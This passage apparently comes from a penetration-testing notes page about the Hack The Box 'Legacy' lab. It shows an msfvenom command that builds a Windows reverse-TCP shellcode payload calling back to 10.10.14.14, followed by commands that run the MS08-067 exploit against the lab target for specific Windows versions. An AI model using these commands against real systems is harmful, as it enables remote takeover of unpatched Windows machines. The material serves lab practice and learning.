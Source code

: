 ```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=9001 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

* Second, we have to guess version of windows and language pack. The exploit takes advantage of knowing where some little bits of code will be in memory, and uses those bits on the path to shell.
* Third, trigget the exploit

```bash
#6 is for Windows XP SP3 English (NX)
python ms08-067.py 10.10.10.4 6 445

#4 is for Windows 2003 SP1 English
python ms08-067.py 10.10.10.4 4 445
```
{% endtab %}
{% endtabs %}

## Exfiltration

{% content-ref url="../../redteam/exfiltration/smb.md" %}
[smb.md](../../redteam/exfiltration/smb.md)
{% endcontent-ref %}

## Resources

{% embed url="https://0xdf.gitlab.io/2019/02/21/htb-legacy.html" %}
